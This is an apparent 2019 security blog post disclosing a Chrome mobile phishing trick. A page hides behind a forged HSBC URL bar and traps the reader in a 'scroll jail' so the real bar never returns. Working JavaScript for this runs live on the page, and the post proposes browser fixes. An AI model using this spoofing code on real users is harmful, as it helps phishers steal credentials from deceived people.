 ```yaml
---
title: "The inception bar: a new phishing method"
tags: ["programming", "security", "fave"]
---
```



Welcome to HSBC, the world's seventh-largest bank!
Of course, the page you're reading isn't actually hosted on `hsbc.com`;
it's hosted on `jameshfisher.com`.
But when you visit this page on Chrome for mobile and scroll a little way,
the page is able to display itself as `hsbc.com` -
and worse,
the page is able to jail you in this fake browser!
In this post I show how the attack works,
then suggest some ways Chrome can fix this vulnerability,
then finally show you how to get out if you're still stuck here.
But first, the proof:

<p><img src="/assets/2019-04-27/proof.png"/></p>

In Chrome for mobile,
when the user scrolls down, 
the browser hides the URL bar,
and hands the URL bar's screen space to the web page.
Because the user associates this screen space with "trustworthy browser UI",
a phishing site can then use it to pose as a different site,
by displaying its own fake URL bar -
the inception bar!

This is bad, but it gets worse.
Normally, when the user scrolls up,
Chrome will re-display the true URL bar.
But we can trick Chrome so that it never re-displays the true URL bar!
Once Chrome hides the URL bar,
we move the entire page content into a "scroll jail" -
that is, a new element with `overflow:scroll`.
Then the user _thinks_ they're scrolling up in the page,
but in fact they're only scrolling up in the scroll jail!
Like a dream in _Inception_,
the user believes they're in their own browser,
but they're actually in a browser within their browser.
Here's a video of the hack in use:

<video width="100%" controls autoplay loop style="margin: 0 auto; border: 2px solid black;">
  <source src="/assets/2019-04-27/demo.webm" type="video/webm">
  Your browser does not support the video tag.
</video>

But it gets even worse!
Even with the above "scroll jail",
the user should be able to scroll to the top of the jail,
at which point Chrome will re-display the URL bar.
But we can disable this behavior, too!
We insert a very tall padding element
at the top of the scroll jail.
Then, if the user tries to scroll into the padding,
we scroll them back down to the start of the content!
It looks like a page refresh.

In my proof-of-concept,
I've just screenshotted Chrome's URL bar on the HSBC website,
then inserted that into this webpage.
With a little more effort,
the page could detect which browser it's in,
and forge an inception bar for that browser.
With yet more effort,
the inception bar could be made interactive.
Even if the user isn't fooled by the current page,
you can get another try 
after the user enters "gmail.com" in the inception bar!

Is this a serious security flaw?
Well, even I, as the creator of the inception bar,
found myself accidentally using it!
So I can imagine this technique fooling users 
who are less aware of it,
and who are less technically literate.
The only time the user has the opportunity to verify the true URL
is on page load, 
before scrolling the page.
After that, there's not much escape.

How can you guard yourself against this attack?
I don't really know.
I see it as a security flaw in Chrome.
But what's the fix?
There's a trade-off,
between maximizing screen space on one hand,
and retaining trusted screen space on the other.
One compromise would be for Chrome to retain a small amount of screen space
above [the "line of death"](https://textslashplain.com/2017/01/14/the-line-of-death/)
instead of giving up literally _all_ screen space to the web page.
Chrome could use this space to signal that 
"the URL bar is currently collapsed",
e.g. by displaying the shadow of an almost-hidden URL bar.

I don't want to keep you any longer.
If you're still stuck here,
one way to get out is to
[go to the Hacker News discussion and upvote this article](https://news.ycombinator.com/item?id=19768072).
Or, for hacks similar to this one,
see [this inception attack based on the fullscreen API](https://feross.org/html5-fullscreen-api-attack/),
or [my "custom cursor" inception attack from 2016](https://jameshfisher.github.io/cursory-hack/).

<div id="fakeurlbar" style="display: none; position: fixed; top: 0px; left: 0; height: 74.77037037037037px; width: 100vw; background-image: url('/assets/2019-04-27/bar_background.png'); background-size: 19px 74.77037037037037px;">
  <img src="/assets/2019-04-27/bar_left.png" style="float: left; width: 211.72222222222223px;"/>
  <img src="/assets/2019-04-27/bar_right.png" style="float: right;  width: 124.74444444444444px;"/>
</div>

<script>
  let scrollJailEl = null;
  const initialHeight = window.innerHeight;
  const fakeUrlBarEl = document.getElementById("fakeurlbar");
  const fakeTopHeight = 200;
  document.body.appendChild(fakeUrlBarEl);
  window.onresize = function() {
    if (window.innerHeight > initialHeight && !scrollJailEl) {
      // Chrome has given up its URL bar! 
      // Create the scroll jail and the fake URL bar!

      const jailScrollTo = window.scrollY;

      fakeUrlBarEl.style.display = "block";

      document.body.style.margin = "0";

      scrollJailEl = document.createElement("div");
      scrollJailEl.style.position = "fixed";
      scrollJailEl.style.overflowX = "scroll";
      scrollJailEl.style.overflowY = "scroll";
      scrollJailEl.style.width = window.innerWidth + "px";
      scrollJailEl.style.height = window.innerHeight + "px";
      scrollJailEl.style.top = "56px";
      scrollJailEl.style.padding = "0 1em";

      // create the fake top
      const fakeTopEl = document.createElement("div");
      fakeTopEl.style.height = fakeTopHeight + "px";
      scrollJailEl.appendChild(fakeTopEl);

      // move everything into the scroll jail
      while (document.body.children.length > 0) {
        const child = document.body.children[0];
        scrollJailEl.appendChild(child);
      }

      document.body.appendChild(scrollJailEl);
      document.body.appendChild(fakeUrlBarEl);

      scrollJailEl.scrollTop = jailScrollTo + fakeTopHeight + 56;

      let scroller;
      scrollJailEl.onscroll = e => {
        clearTimeout(scroller);
        scroller = setTimeout(() => {
          // We stopped scrolling. Reset the jail.
          scrollJailEl.scrollTo({
            top: Math.max(scrollJailEl.scrollTop, fakeTopHeight),
            left: 0,
            behavior: 'smooth'
          });
        }, 100);
        console.log("scroll");
      };
    }
  };
</script>
